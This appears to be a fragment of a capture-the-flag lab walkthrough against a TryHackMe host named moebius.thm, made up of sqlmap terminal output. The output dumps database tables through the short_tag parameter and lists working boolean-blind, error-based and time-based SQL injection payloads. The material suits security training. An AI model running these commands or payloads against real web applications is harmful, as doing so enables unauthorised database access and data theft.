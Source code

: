 [3 entries]
+----------------+-----------+--------------------------+
| name           | short_tag | description              |
+----------------+-----------+--------------------------+
| Cute cats      | cute      | Cutest cats in the world |
| Favourite cats | fav       | My favourite ones        |
| Smart cats     | smart     | So smart...              |
+----------------+-----------+--------------------------+

[18:57:15] [INFO] table 'web.albums' dumped to CSV file '/home/alvan/.local/share/sqlmap/output/moebius.thm/dump/web/albums.csv'                                                                                                        
[18:57:15] [INFO] fetched data logged to text files under '/home/alvan/.local/share/sqlmap/output/moebius.thm'
[18:57:15] [WARNING] your sqlmap version is outdated

[*] ending @ 18:57:15 /2025-08-15/

                                                                                                                    
┌──(alvan㉿vbox)-[~/THM/moebius]
└─$ sqlmap -u 'http://moebius.thm/album.php?short_tag=smart' -p short_tag -D web -T images --dump
        ___
       __H__                                                                                                        
 ___ ___["]_____ ___ ___  {1.8.5#stable}                                                                            
|_ -| . [.]     | .'| . |                                                                                           
|___|_  ["]_|_|_|__,|  _|                                                                                           
      |_|V...       |_|   https://sqlmap.org                                                                        

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 18:57:59 /2025-08-15/

[18:57:59] [INFO] resuming back-end DBMS 'mysql' 
[18:57:59] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: short_tag (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: short_tag=smart' AND 7563=7563-- IGsL

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: short_tag=smart' AND (SELECT 3761 FROM(SELECT COUNT(*),CONCAT(0x71626b6271,(SELECT (ELT(3761=3761,1))),0x717a767871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- vzPc

    Type: time-based blind
    Title: MySQL < 5.0.12 AND time-based blind (BENCHMARK)
    Payload: short_tag=smart' AND 5750=BENCHMARK(5000000,MD5(0x50755a70))-- JJUJ
